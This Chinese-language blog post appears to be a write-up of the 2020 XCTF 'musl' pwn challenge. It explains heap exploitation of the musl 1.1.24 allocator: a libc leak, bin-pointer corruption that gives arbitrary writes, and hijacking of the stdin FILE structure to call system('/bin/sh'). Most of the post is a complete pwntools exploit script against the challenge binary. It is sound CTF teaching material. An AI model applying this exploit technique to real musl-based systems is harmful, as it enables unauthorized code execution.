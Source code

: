 ```yaml
---
layout: post
title: "2020 xctf musl wp"
date:   2022-4-26
tags: [ctf_wp]
comments: true
author: wsxk
---
```


做的第一道musl pwn题

只能说虽然看起来很简单，其实还是挺困难的

不懂musl的可以看一看源码（

或者直接路由到我的源码分析
[musl1.1.24源码分析](https://wsxk.github.io/musl%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/)

直接看题目

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-26-XCTF_PWN_musl/1.png)

case 1 函数里面有且只有一个溢出机会

case 4 有且只有一个打印内容的机会


## 拿到libc地址

因为musl是静态堆内存（即它的初始堆就是在libc里的，所以你拿到了chunk的地址=拿到了libc的基址）

一开始申请一个0x20大小的chunk，根据musl的规律，它会从大chunk中切掉一部分（其中会保护mal某个位置的地址

## 任意地址写

任意地址写要用case1的溢出机会拿到

可以再申请3个0x20的chunk

free掉两个（不要连在一起，连在一起会自动合并），再申请第一个chunk

然后用case 1的覆写机会写后面chunk的地址（因为musl1.1.24基本不会对prev和next的合法性做检查，而且先进先出）

这时候可以把这个chunk的prev和next都改掉，这样mal.bins[0]会永远指向这个chunk（可以有任意地址写入的权限


## exp

    from pwn import *
    context.log_level='debug'

    io=process("./carbon")
    libc = ELF('./libc.so')

    def add(size,content,hello='N'):
        print("hello:"+hello)
        io.sendlineafter("> ",str(1))
        io.sendlineafter("What is your prefer size? >",str(size))
        io.sendlineafter("Are you a believer? >",hello)
        io.sendlineafter("Say hello to your new sleeve >",content)

    def delete(idx):
        io.sendlineafter("> ",str(2))
        io.sendlineafter("What is your sleeve ID? >",str(idx))

    def edit(idx,content):
        io.sendlineafter("> ",str(3))
        io.sendlineafter("What is your sleeve ID? >",str(idx))
        io.send(content)

    def examine(idx):
        io.sendlineafter("> ",str(4))
        io.sendlineafter("What is your sleeve ID? >",str(idx))

    # get libc_address
    #gdb.attach(io)
    add(0,'a') #0
    #gdb.attach(io)
    examine(0)

    libc_base = u64(io.recv(6).ljust(8,b'\x00'))-912-0xA0A80
    print(hex(libc_base))
    print("mal address: "+hex(libc_base+0xa0a80))
    libc.address=libc_base
    #gdb.attach(io)
    stdin = libc.address+0xA01C0
    brk = libc.address+0xA2FF0
    binmap = libc.address+0xA0A80
    bin  = libc.address + 0xA0A80+0x380
    system = libc.address+0x046BDA
    #gdb.attach(io)

    # procedure 2
    add(0x10,'a'*0xf)#1
    add(0x10,'b'*0xf)#2
    add(0x10,'c'*0xf)#3
    add(0x10,'d'*0xf)#4
    #gdb.attach(io)
    add(0x10,'e'*0xf) #5
    add(0x10,'f'*0xf) #6
    add(0x10,'g'*0xf) #7
    add(0x10,'h'*0xf) #8
    delete(1)
    delete(3)
    #gdb.attach(io)

    payload = b'i'*0x10+p64(0x21)*2+b'i'*0x10+p64(0x21)+p64(0x20)+p64(stdin-0x10)*2+p8(0x20) # set same but binmap is 0
    add(0x10,payload,hello='Y') #1
    add(0x10,b'\n') #3   bins[0] always point to #3
    #gdb.attach(io)

    delete(1)
    edit(3, p64(binmap - 0x20) * 2)
    add(0x10,b'\n')             #1
    delete(5) # set as non-empty bin

    edit(3, p64(brk - 0x10) * 2)
    add(0x10,b'\n')             #5
    delete(7) # set as non-empty bin

    edit(3,p64(bin-0x10)+p64(stdin-0x10))
    add(0x10,b'\n') 
    add(0x50,b'\n')#9
    edit(3,p64(bin-0x10)+p64(brk-0x10))
    add(0x10,b'\n')#10
    add(0x50,b'\n')#11
    edit(3,p64(bin-0x10)+p64(binmap-0x20))
    add(0x10,b'\n')#12
    add(0x50,b'\n')#13

    payload  = b"/bin/sh\x00"    # stdin->flags
    payload += b'X' * 0x20
    payload += p64(0xdeadbeef)  # stdin->wpos
    payload += b'X' * 8
    payload += p64(0xbeefdead)  # stdin->wbase
    payload += b'X' * 8
    payload += p64(system)      # stdin->write
    edit(9,payload)
    edit(11,p64(0xbadbeef - 0x20)+b'\n' )
    edit(13, b'X' * 0x10 + p64(0) + b'\n') 

    io.sendlineafter(">", '1')
    io.sendlineafter("What is your prefer size? >", '0')
    #gdb.attach(io)
    io.interactive()